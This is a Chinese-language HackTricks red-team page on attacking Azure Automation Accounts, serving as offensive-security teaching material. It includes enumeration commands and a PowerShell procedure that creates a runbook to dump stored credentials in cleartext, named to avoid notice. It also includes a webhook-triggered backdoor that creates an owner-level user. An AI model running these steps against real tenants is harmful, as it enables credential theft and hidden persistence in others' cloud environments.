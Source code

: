 # Az - 自动化账户

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

Azure Automation提供了一个基于云的自动化、操作系统更新和配置服务，支持跨Azure和非Azure环境的一致性管理。它包括流程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像Azure中的“**计划任务**”，它们将让你执行事物（动作或脚本）来**管理**、检查和配置**Azure环境**。

### 运行账户

当使用**运行账户**时，它会创建一个带有自签名证书的Azure AD **应用程序**，创建一个**服务主体**并为当前订阅中的账户分配**贡献者**角色（很多权限）。\
Microsoft建议对自动化账户使用**托管身份**。

{% hint style="warning" %}
这将在**2023年9月30日被移除并更改为托管身份。**
{% endhint %}

## 运行簿 & 作业

**运行簿**允许你**执行任意的PowerShell**代码。这可能被攻击者**滥用**，以窃取**附加的主体**的权限（如果有的话）。\
在**运行簿**的**代码**中，你也可能找到**敏感信息**（如凭据）。

如果你能**读取**作业，就去读它，因为它们**包含**运行的**输出**（潜在的**敏感信息**）。

转到 `自动化账户` --> `<选择自动化账户>` --> `运行簿/作业/混合工作组/观察者任务/凭据/变量/证书/连接`

### 混合工作人员

运行簿可以在**Azure内的容器**中运行，也可以在**混合工作人员**（非Azure机器）中运行。\
**日志分析代理**被部署在VM上以将其注册为混合工作人员。\
混合工作人员作业在Windows上以**SYSTEM**身份运行，在Linux上以**nxautomation**账户运行。\
每个混合工作人员都注册在一个**混合工作组**中。

因此，如果你可以选择在**Windows混合工作人员**中运行一个**运行簿**，你将以**System**身份在外部机器中执行**任意命令**（不错的枢纽技术）。

## 妥协状态配置 (SC)

Azure Automation **状态配置**是一个Azure配置管理服务，允许你编写、管理和编译PowerShell期望状态配置（DSC）[配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)用于任何云或本地数据中心的节点。该服务还导入[DSC资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中完成。你可以通过在Azure门户中选择**状态配置（DSC）**下的**配置管理**来访问Azure自动化状态配置。

这些配置中可能会发现**敏感信息**。

### RCE

可以滥用SC在受管理的机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### 利用运行簿从自动化账户中提取凭证和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的 Run Book 并通过网络控制台来做同样的事情。
{% endhint %}

## 持久性

### 创建高权限用户的自动化

* 创建一个新的自动化账户
* “创建 Azure Run As 账户”：是
* 导入一个新的 runbook，该 runbook 为订阅创建具有所有者权限的 AzureAD 用户
* 此博客的示例 runbook 位于此处 - [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* 发布 runbook
* 为 runbook 添加一个 webhook
* 向自动化账户添加 AzureAD 模块
* 更新 Azure 自动化模块
* 为自动化账户分配“用户管理员”和“订阅所有者”权限
* 最终失去您的访问权限...
* 通过 post 请求触发 webhook 以创建新用户

{% code overflow="wrap" %}
```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
{% endcode %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
